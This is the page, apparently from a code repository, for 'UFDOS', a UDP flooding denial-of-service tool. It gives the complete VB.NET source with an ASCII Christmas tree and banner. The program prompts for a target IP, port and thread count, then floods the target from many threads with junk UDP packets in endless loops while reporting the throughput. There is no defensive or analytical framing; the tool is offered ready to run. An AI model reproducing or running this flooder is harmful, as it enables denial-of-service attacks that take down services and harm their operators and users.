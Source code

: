 # UFDOS
UFDOS is a UDP flooding tool ('U'dp 'F'looding 'DOS')
This tool is writen with VB2010
<h1>Code:</h1>

Imports System.Threading, System.Net.Sockets
Imports System.Net
Imports System.Text

Public Module Module1
    Public UPSIS As Integer
    Sub Main()

        'UFDOS-1b_christmas2023_vbnet20231221_1
        '                                         ==                                            
        '                                        -**=                                           
        '                                   :--==****==--:                                      
        '                                    -**********=.                                      
        '                                     .+*******.                                        
        '                                     .+*******:                                        
        '                                    :=*+===++*+-                                       
        '                                  .--------======:                                     
        '                                 :---------========.                                   
        '                               .------------========:                                  
        '                              :-------------=+++======.                                
        '                            :--------------=****+======-                               
        '                           ----------------=****+========.                             
        '                         .------------------==++==========:                            
        '                         :-------------------=============-                            
        '                           ...--------================:::.                             
        '                             :-------=================-                                
        '                           .------------------==========.                              
        '                          :-------------------===========-                             
        '                        .-----==---------------====--======.                           
        '                       :----+****=--------------==----======-                          
        '                     .------+****=--------------==============.                        
        '                    :--------====----------------==============-                       
        '                  .----------------------::::----================:                     
        '                 :------------------------:::-----================-                    
        '                 ---------------------------------=================.                   
        '                 .:::-----------===============================---.                    
        '                    ------------================================.                      
        '                  .-------------=================================:                     
        '                 .-------------------=====----------==============:                    
        '                :-------------------=****+----------===============-                   
        '               ---------------------=****+-----------==--:--=========.                 
        '             .-------:::-------------=====-----------==:::::==========:                
        '            :-------:::::-----------------------------==----===========-               
        '           :------------------------------------------===================              
        '          ---------------------------------------------=================== 
        '          ---------------------------------------------=================== 
        '            .......................++++++++++++++:.......................  
        '                                   +++++++*******.
        '                                   +++++++*******.
        '                                   +++++++*******.
        '                                   +++++++*******.
        '                                   +++++++*******.
        '                                   +++++++******* 
        '                                   .=+++++*****+: 
        Console.SetWindowSize(105, 21)
        Console.WriteLine("+------------------------------------------------------------------------------------------------------+")
        Console.WriteLine("|UUUUUUUU     UUUUUUUUFFFFFFFFFFFFFFFFFFFFFFDDDDDDDDDDDDD             OOOOOOOOO        SSSSSSSSSSSSSSS |")
        Console.WriteLine("|U::::::U     U::::::UF::::::::::::::::::::FD::::::::::::DDD        OO:::::::::OO    SS:::::::::::::::S|")
        Console.WriteLine("|U::::::U     U::::::UF::::::::::::::::::::FD:::::::::::::::DD    OO:::::::::::::OO S:::::SSSSSS::::::S|")
        Console.WriteLine("|UU:::::U     U:::::UUFF::::::FFFFFFFFF::::FDDD:::::DDDDD:::::D  O:::::::OOO:::::::OS:::::S     SSSSSSS|")
        Console.WriteLine("| U:::::U     U:::::U   F:::::F       FFFFFF  D:::::D    D:::::D O::::::O   O::::::OS:::::S            |")
        Console.WriteLine("| U:::::D     D:::::U   F:::::F               D:::::D     D:::::DO:::::O     O:::::OS:::::S            |")
        Console.WriteLine("| U:::::D     D:::::U   F::::::FFFFFFFFFF     D:::::D     D:::::DO:::::O     O:::::O S::::SSSS         |")
        Console.WriteLine("| U:::::D     D:::::U   F:::::::::::::::F     D:::::D     D:::::DO:::::O     O:::::O  SS::::::SSSSS    |")
        Console.WriteLine("| U:::::D     D:::::U   F:::::::::::::::F     D:::::D     D:::::DO:::::O     O:::::O    SSS::::::::SS  |")
        Console.WriteLine("| U:::::D     D:::::U   F::::::FFFFFFFFFF     D:::::D     D:::::DO:::::O     O:::::O       SSSSSS::::S |")
        Console.WriteLine("| U:::::D     D:::::U   F:::::F               D:::::D     D:::::DO:::::O     O:::::O            S:::::S|")
        Console.WriteLine("| U::::::U   U::::::U   F:::::F               D:::::D    D:::::D O::::::O   O::::::O            S:::::S|")
        Console.WriteLine("| U:::::::UUU:::::::U FF:::::::FF           DDD:::::DDDDD:::::D  O:::::::OOO:::::::OSSSSSSS     S:::::S|")
        Console.WriteLine("|  UU:::::::::::::UU  F::::::::FF           D:::::::::::::::DD    OO:::::::::::::OO S::::::SSSSSS:::::S|")
        Console.WriteLine("|    UU:::::::::UU    F::::::::FF           D::::::::::::DDD        OO:::::::::OO   S:::::::::::::::SS |")
        Console.WriteLine("|      UUUUUUUUU      FFFFFFFFFFF           DDDDDDDDDDDDD             OOOOOOOOO      SSSSSSSSSSSSSSS   |")
        Console.WriteLine("+------------------------------------------------------------------------------------------------------+")
        Console.WriteLine("UFDOS-1b_christmas2023_vbnet20231221_1")
        Console.WriteLine("")
        Console.Write("IP Address:")
        Static IPADDR
        IPADDR = Console.ReadLine()
        Console.Write("Port:")
        Static PORT
        PORT = Console.ReadLine()
        Console.Write("Threads:")
        Static THREADS As Integer
        THREADS = Console.ReadLine()

        Console.WriteLine("Spawning threads(" & THREADS & ")")
        Dim TCNT As Integer
        TCNT = 0
        Do Until TCNT = THREADS
            TCNT = TCNT + 1
            Dim NThread As New Thread(Sub() IKUN(IPADDR, PORT))
            NThread.Start()

        Loop
        Dim NETCNT As New Thread(AddressOf SMALLBLACKZI)
        NETCNT.Start()
        Console.WriteLine("Done! Press ENTER to exit.")
        Console.ReadLine()
        End
    End Sub
    Public Sub IKUN(ByVal IPADDR, ByVal PORT)
        Dim udpClient As New UdpClient
        Dim GLOIP As IPAddress
        Dim GLOINTPORT As Integer
        Dim bytCommand As Byte() = New Byte() {}
        GLOIP = IPAddress.Parse(IPADDR)
        GLOINTPORT = PORT
        udpClient.Connect(GLOIP, GLOINTPORT)
        bytCommand = Encoding.ASCII.GetBytes("QWERTYUIOqwertyuioASDFRTYUasdfwegwbk7348507969i6defgh#&()IUYGVBNFUI$YGCRFGUTYu4yyreuyito0948576ythgfjkidr9487yhgnfmdje,.nlpjh;.jQWERTYUIOqwertyuioASVBNFUI$YGCRFGUTYu4yyreuyito0948576ythgfjkidr9487yhgnfmdje,.nlpjh;.jQWERTYUIOqwertyuioASDFRTYUasdfwegwbk7348507969i6defgh#&()IUYGVBNFUI$YGCRFGUTYu4yyreuyito0948576ythgfjkidr9487yhgnfmdje,.nlpjh;.jQWERTYUIOqwertyuioASDFRTYUasdfwegwbk7348507969i6defgh#&()IUYGVBNFUI$YGCRFGUTYu4yyreuyito0948576ythgfjkidr9487yhgnfmdje,.nlpjh;.jQWERTYUIOqwertyuioASDFRTYUasdfwegwbk7348507969i6defgh#&()IUYGVBNFUI$YGCRFGUTYu4yyreuyiQWERTYUIOqwertyuioASDFRTYUasdfwegwbk7348507969i6defgh#&()IUYGVBNFUI$YGCRFGUTYu4yyreuyito0948576ythgfjkidr9487yhgnfmdje,.nlpjh;.jQWERTYUIOqwertyuioASDFRTYUasdfwegwbk7348507969i6defgh#&()IUYGVBNFUI$YGCRFGUTQWERTYUIOqwertyuioASDFRTYUasdfwegwbk7348507969i6defgh#&()IUYGVBNFUI$YGCRFGUTYu4yyreuyito0948576ythgfjkidr9487yhgnfmdje,.nlpjh;.jQWERTYUIOqwertyuioASDFRTYUasdfwegwbk7348507969i6defgh#&()IUYGVBNFUI$YGCRFGUTYu4yyreuyito0948576ythgfjkidr9487yhgnfmdje,.nlpjh;.jQWERTYUIOqwertyuioASDFRTYUasdfwegwbk7348507969i6defgh#&()IUYGVBNFUI$YGCRFGUTYu4yyreuyito0948576ythgfjkidr9487yhgnfmdje,.nlpjh;.jQWERTYUIOqwertyuioASDFRTYUasdfwegwbk7348507969i6defgh#&()IUYGVBNFUI$YGCRFGUTYu4yyreuyito0948576ythgfjkidr9487yhgnfmdje,.nlpjh;.jQWERTYUIOqwertyuioASDFRTYUasdfwegwbk7348507969i6defgh#&()IUYGVBNFUI$YGCRFGUTYu4yyreuyito0948576ythgfjkidr9487yhgnfmdje,.nlpjh;.jQWERTYUIOqwertyuioASDFRTYUasdfwegwbk7348507969i6defgh#&()IUYGVBNFUI$YGCRFGUTYu4yyreuyito0948576ythgfjkidr9487yhgnfmdje,.nlpjh;.jQWERTYUIOqwertyuioASDFRTYUasdfwegwbk7348507969i6defgh#&()IUYGVBNFUI$YGCRFGUTYu4yyreuyito0948576ythgfjkidr9487yhgnfmdje,.nlpjh;.jYu4yyreuyito0948576ythgfjkidr9487yhgnfmdje,.nlpjh;.jto0948576ythgfjkidr9487yhgnfmdje,.nlpjh;.jQWERTYUIOqwertyuioASDFRTYUasdfwegwbk7348507969i6defgh#&()IUYGVBNFUI$YGCRFGUTYu4yyreuyito0948576ythgfjkidr9487yhgnfmdje,.nlpjh;.j")
        Do
            UPSIS = UPSIS + bytCommand.Length
            udpClient.Send(bytCommand, bytCommand.Length)

        Loop

    End Sub
    Public Sub SMALLBLACKZI()
        Do
            UPSIS = 0
            Thread.Sleep(1000)
            Console.WriteLine(UPSIS * 8 / 1000 / 1000 & "Mbps")
        Loop
    End Sub
End Module

